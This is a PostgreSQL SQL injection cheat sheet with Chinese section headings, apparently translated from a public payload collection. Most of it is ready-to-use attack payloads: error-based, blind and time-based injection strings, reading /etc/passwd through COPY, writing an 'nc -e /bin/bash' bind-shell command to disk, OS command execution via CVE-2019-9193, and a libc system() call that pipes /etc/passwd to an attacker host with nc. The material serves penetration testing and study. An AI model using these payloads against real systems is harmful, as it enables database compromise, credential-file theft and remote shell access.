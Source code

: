 # PostgreSQL 注入

## Summary

* [PostgreSQL Comments](#postgresql-comments)
* [PostgreSQL Error Based](#postgresql-error-based)
* [PostgreSQL Blind](#postgresql-blind)
* [PostgreSQL Time Based](#postgresql-time-based)
* [PostgreSQL File Read](#postgresql-file-read)
* [PostgreSQL File Write](#postgresql-file-write)
* [PostgreSQL Command execution](#postgresql-command-execution)
	* [CVE-2019–9193](#cve-2019–9193)
	* [Using libc.so.6](#using-libc-so-6)
* [References](#references)

## PostgreSQL Comments

PostgreSQL注释

```sql
--
/**/  
```

## PostgreSQL Error Based

基于PostgreSQL报错注入

```sql
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name=data_column+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)
```

## PostgreSQL Blind

PostgreSQL盲注

```sql
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```

## PostgreSQL Time Based

基于PostgreSQL时间注入

```sql
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL File Read

PostgreSQL文件读取

```sql
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```

NOTE: ``pg_read_file`不支持```/```符号

```sql
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

## PostgreSQL File Write

 PostgreSQL File文件写入

```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

## PostgreSQL Command execution

PostgreSQL命令执行

### CVE-2019–9193

如果你可以直接使用数据库，那你就可以直接使用[Metasploit](https://github.com/rapid7/metasploit-framework/pull/11598)进行利用，如果不可以，那你需要手动输入一下SQL查询

```SQL
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```

![https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png](https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png)

### Using libc.so.6

```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```

## References

* [A Penetration Tester’s Guide to PostgreSQL - David Hayter](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
* [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest - Mar 20 2019 - GreenWolf](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
* [SQL Injection /webApp/oma_conf ctx parameter (viestinta.lahitapiola.fi) - December 8, 2016 - Sergey Bobrov (bobrov)](https://hackerone.com/reports/181803)
* [POSTGRESQL 9.X REMOTE COMMAND EXECUTION - 26 Oct 17 - Daniel](https://www.dionach.com/blog/postgresql-9x-remote-command-execution)